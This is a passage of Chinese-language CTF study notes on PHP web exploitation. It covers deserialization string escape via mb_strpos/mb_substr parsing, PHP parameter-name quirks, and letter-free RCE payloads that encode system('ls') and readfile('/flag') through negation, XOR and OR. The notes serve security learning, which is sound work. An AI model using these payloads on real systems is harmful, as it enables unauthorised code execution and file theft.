 利用mb_strpos与mb_substr这两个函数对某些不可见字符的解析差异导致的，可以利用特殊的不可见字符实现反序列化字符串逃逸。

例如 `%9f` 可以逃逸出一个字符，所以需要逃出几个字符就在前面添加几个 `%9f`。

参考：

https://www.sonarsource.com/blog/joomla-multiple-xss-vulnerabilities/

[https://www.cnblogs.com/gxngxngxn/p/18187578 逃跑大师](https://www.cnblogs.com/gxngxngxn/p/18187578)

### 参数特性

![img](https://lazzzaro.github.io/2020/05/18/web-PHP%E7%BB%95%E8%BF%87/1567560448_5d6f13004035f.jpeg)

- 参数中的`+`、`[`、空格、`.`均会变为`_`

- 参数形式`A_B.C`：使用`A[B.C`传入

  

### 无字母/数字/特定符号RCE

- 取反（`~`）

  `phpinfo()` → `(~%8F%97%8F%96%91%99%90)()`

  `system('ls')` → `(~%8C%86%8C%8B%9A%92)(~%93%8C)`

- 异或（`^`）

  `phpinfo()` → `$_GET[x]&x=phpinfo` → `${%A0%A0%A0%A0^%FF%E7%E5%F4}{x}();&x=phpinfo`

  `system('ls')` → `$_GET[x]($_GET[y])&x=system&y=ls` → `${%A0%A0%A0%A0^%FF%E7%E5%F4}{x}(${%A0%A0%A0%A0^%FF%E7%E5%F4}{y});&x=system&y=ls`

  无字母情形：

  `phpinfo()` → `('484880800'^'8.8-**)00'^'|~||||~()')`

  `system('ls')` → `('404008008400'^'9598))08*980'^'~|~|||(*~~*)')`

- 或（`|`）

  可以直接将需要构造的字符串与反引号进行**异或**，得到的结果再与反引号相**或**即可得到原字符串。

  复制

  ```
  <?php
  echo "````````"^"readfile";
  echo "````"^"flag";
  ```

  payload例：（`readfile("/flag")`）

  `$code = "('````````'|' ')('/````'|'/ '));//";`

  参考：

  https://blog.csdn.net/miuzzx/article/details/108569080

  https://blog.csdn.net/miuzzx/article/details/109143413
